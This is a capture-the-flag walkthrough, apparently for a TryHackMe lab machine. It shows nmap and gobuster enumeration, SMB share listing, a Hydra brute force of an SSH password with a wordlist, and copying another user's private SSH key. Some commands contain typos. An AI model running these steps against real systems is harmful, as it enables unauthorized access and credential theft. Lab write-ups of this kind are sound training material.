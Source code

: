 ## Find the services exposed by the machine

I can use nmap for this

```
nmap $TIP

Starting Nmap 7.60 ( https://nmap.org ) at 2024-10-16 03:51 BST
Nmap scan report for ip-10-10-253-89.eu-west-1.compute.internal (10.10.253.89)
Host is up (0.00023s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
8009/tcp open  ajp13
8080/tcp open  http-proxy
MAC Address: 02:ED:C9:2B:84:E1 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 1.68 seconds
```

We've found quite a bunch of open ports. Let's try them

### HTTP

If we go to the browser and use our target IP with port 80, the screen greet us with

![](/images/thm/basic-pentesting/0.png)

It doesn't look like much but the HTML has an interesting comment that, maybe, points to a new endpoint?

```html
<html>
  <h1>Undergoing maintenance</h1>
  <h4>Please check back later</h4>
  <!-- Check our dev note section if you need to know what to work on. -->
</html>
```

Maybe a quick dir enumeration will give us something new. Let's launch `gobuster`

```
~# gobuster dir -u /usr/share/wordlists/dirb/common.txt -u $TIP

===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.253.89
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2024/10/16 04:05:38 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/development (Status: 301)
/index.html (Status: 200)
/server-status (Status: 403)
===============================================================
2024/10/16 04:05:38 Finished
===============================================================
```

_Note:_ `/usr/share/wordlists/` is a directory that contains usefuls word lists, and comes with a Kali Linux installation.

And it found something! `/development` returned a 301 Moved Permanently status code. Just for fun, let's where the `Location` header points

```
~# curl $TIP/development -i

HTTP/1.1 301 Moved Permanently
Date: Wed, 16 Oct 2024 03:24:24 GMT
Server: Apache/2.4.18 (Ubuntu)
Location: http://10.10.253.89/development/
Content-Length: 318
Content-Type: text/html; charset=iso-8859-1

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>301 Moved Permanently</title>
</head><body>
<h1>Moved Permanently</h1>
<p>The document has moved <a href="http://10.10.253.89/development/">here</a>.</p>
<hr>
<address>Apache/2.4.18 (Ubuntu) Server at 10.10.253.89 Port 80</address>
</body></html>
```

Nice. Let's go to `/development/` and see what is there

![](/images/thm/basic-pentesting/1.png)

We now know, as a bonus, that the web app is running Apache 2.4.18, in Ubuntu! There are two notes.
The first one tell us that

- There might be something like https://struts.apache.org/plugins/rest/ running, with version 2.5.12
- There is an SMB service running.

The second one reveals that the user J has a very weak password and points to /etc/shadow.

The thing running on port 8009 is AJP, which is a protocol optimized to work with Tomcat
and Apache.

```
~# nmap -p8009 -sV -sC $TIP

Starting Nmap 7.60 ( https://nmap.org ) at 2024-10-16 05:07 BST
Nmap scan report for ip-10-10-253-89.eu-west-1.compute.internal (10.10.253.89)
Host is up (0.00017s latency).

PORT STATE SERVICE VERSION
8009/tcp open ajp13 Apache Jserv (Protocol v1.3)
| ajp-methods:
|\_ Supported methods: GET HEAD POST OPTIONS
MAC Address: 02:ED:C9:2B:84:E1 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.27 seconds
```

Doesn't look useful at the moment. Let's go back and point our attention to the SMB client running in port 445.

```
~# smbclient -L $TIP
WARNING: The "syslog" option is deprecated
Enter WORKGROUP\root's password:

    Sharename       Type      Comment
    ---------       ----      -------
    Anonymous       Disk
    IPC$            IPC       IPC Service (Samba Server 4.3.11-Ubuntu)

Reconnecting with SMB1 for workgroup listing.

    Server               Comment
    ---------            -------

    Workgroup            Master
    ---------            -------
    WORKGROUP            BASIC2
```

We have two shares `Anonymous` and `IPC$`. Let's try to connect to the first one

```
~# smblcient //$TIP/Anonymous
WARNING: The "syslog" option is deprecated
Enter WORKGROUP\root's password:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Apr 19 18:31:20 2018
  ..                                  D        0  Thu Apr 19 18:13:06 2018
  staff.txt                           N      173  Thu Apr 19 18:29:55 2018

smb: \> more staff.txt
Announcement to staff:

PLEASE do not upload non-work-related items to this share. I know it's all in fun, but
this is how mistakes happen. (This means you too, Jan!)

-Kay
```

Now we know two possible usernames: Jan and Kay. Let's try to go through the ssh port and brute force Jan's password
with Hydra: `hydra -l jan -P /usr/share/wordlists/rockyou.txt $TIP ssh`

After some time we got it! Jan's password is `armando`. Time to logn as jan: `ssh jan@$TIP`. On success, if we go to
`/home`, we see that there are two users folders `jan` and `kay`. In Kay's home folders there is a mysterious file
called `pass.bak`, a BAK file is a backup file. Of course jan doesn´t have enough privileges to list the file's
contents: `cat pass.bak` results in permission denied. In fact

```
jan@basic2:/home/kay$ ls -l
total 4
-rw------- 1 kay kay 57 Apr 23  2018 pass.bak
```

Another quick `ls` in Kay's home dir reveals the `.ssh` dir. Now we can grab the private key and copy it to our machine.
If we try to SSH as kay: `ssh -i kay_priv_key.txt kay@$TIP`, we see that it's protected by a passprhase.

# References

- https://www.linuxfordevices.com/tutorials/linux/hydra-brute-force-ssh
